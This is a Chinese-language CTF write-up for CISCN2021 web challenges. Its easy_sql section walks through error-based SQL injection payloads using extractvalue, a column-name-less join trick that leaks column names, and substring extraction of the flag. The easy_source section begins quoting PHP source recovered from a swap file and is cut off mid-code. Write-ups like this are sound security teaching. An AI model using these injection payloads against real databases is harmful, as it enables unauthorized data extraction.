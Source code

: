 title: CISCN2021-web之旅
author: bmth
tags:
  - CISCN2021
  - CTF
categories: []
img: 'https://img-blog.csdnimg.cn/20210517224756982.png'
date: 2021-05-18 15:35:00
---
## easy_sql
使用sqlmap跑出来了库名和表名
![](https://img-blog.csdnimg.cn/20210517224822800.png)
使用报错注入语句
```sql
') and extractvalue(2516,concat(0x7e,(select database()),0x7e))-- 
```
![](https://img-blog.csdnimg.cn/20210517224850681.png)
得到数据库名。但发现是无列名注入，过滤了union，参考文章：[sql注入中的其他姿势 ](https://www.cnblogs.com/wangtanzhi/p/12594949.html#autoid-0-15-0)
在使用别名的时候，表中不能出现相同的字段名，于是我们就利用join把表扩充成两份，在最后别名c的时候 查询到重复字段，就成功报错
```sql
') and extractvalue(2516,concat(0x7e,(select * from users where id=1 and (select * from (select * from users as a join users as b using(id,username))as c)),0x7e))-- 
```
![](https://img-blog.csdnimg.cn/20210517225033859.png)
得到password
那么同理就可以得到flag的列名了
```sql
') and extractvalue(2516,concat(0x7e,(select * from flag where id=2 and (select * from (select * from flag as a join flag as b using(id,no)) as c)),0x7e))-- 
```
![](https://img-blog.csdnimg.cn/20210517225124857.png)
最后直接读取即可，字段存在数字注意使用`
```sql
') and extractvalue(2516,concat(0x7e,(select `0c20652d-dfd7-4610-a3bb-b0e9cc8fcacb` from flag),0x7e))-- 
```
由于extractvalue读取不完全，截取一下即可
```sql
') and extractvalue(2516,concat(0x7e,(select mid(`0c20652d-dfd7-4610-a3bb-b0e9cc8fcacb`,1,10) from flag),0x7e))-- 
```
得到flag
![](https://img-blog.csdnimg.cn/20210517225208763.png)
## easy_source
直接.index.php.swo得到源码
```php
<?php
class User
{
    private static $c = 0;
    function a()
    {
        return ++self::$c;
    }
    function b()
    {
        return ++self::$c;
    }
    function c()
```